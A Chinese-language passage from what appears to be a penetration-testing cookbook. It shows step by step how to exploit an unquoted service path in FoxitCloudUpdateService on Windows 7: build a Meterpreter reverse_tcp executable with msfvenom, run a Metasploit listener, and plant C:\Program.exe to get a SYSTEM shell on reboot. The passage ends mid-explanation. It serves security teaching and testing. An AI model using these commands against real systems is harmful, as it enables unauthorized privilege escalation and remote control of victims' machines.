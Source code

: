 ## 如何操作...

1.  运行 Windows cmd 并输入以下命令：

```
          sc qc FoxitCloudUpdateService

    ```

输出将如下截屏所示：

![如何操作...](img/image_09_010.jpg)

1.  我们看到二进制路径没有被引号括起来。现在我们将继续在我们的 Kali 机器上使用`msfvenom`制作一个反向 shell，用于这个 Windows 框架。在 Kali 终端中输入以下命令，替换您在 Kali 上获得的 IP 和所需的端口：

```
          msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP       Address> LPORT=<Your Port to Connect On> -f exe > Program.exe

    ```

输出将如下截屏所示：

![如何操作...](img/image_09_011.jpg)

1.  在您的 Kali 机器上使用以下命令启动一个反向处理程序：

```
          use exploit/multi/handler
          set payload windows/meterpreter/reverse_tcp
          set lhost x.x.x.x
          set lport xxx
          exploit

    ```

输出将如下截屏所示：

![如何操作...](img/image_09_012.jpg)

1.  现在，让我们将这个文件放在 Windows 系统上。由于我们专注于权限提升，我们将简单地将其托管在 Web 服务器上，并在 Windows 机器上下载它。

1.  一旦文件下载完成，我们找到一种方法将其放在`C`驱动器中，以便路径类似于`C:\Program.exe`。只有在权限设置不正确，或者错误配置的 FTP 设置将路径指向`C`驱动器，或者允许我们将我们的代码粘贴到路径上的任何错误配置时，才有可能实现这一点：![如何操作...](img/image_09_013.jpg)

1.  现在我们将重新启动 Windows 7 系统，并等待我们的处理程序，看看是否会得到一个反向连接：![如何操作...](img/image_09_014.jpg)

1.  我们成功地在重新启动时获得了一个反向连接；这是由于未加引号的服务路径漏洞。

1.  让我们检查我们收到连接的用户级别：![如何操作...](img/image_09_015.jpg)

1.  我们已经进入系统。现在我们可以在操作系统上执行任何任务而不受任何限制。

## 它是如何工作的...

如介绍中所讨论的，这是因为 Windows 处理服务二进制路径的执行流程。我们能够利用任何有空格并且没有被引号括起来的服务。

让我们了解`msfvenom`命令：

```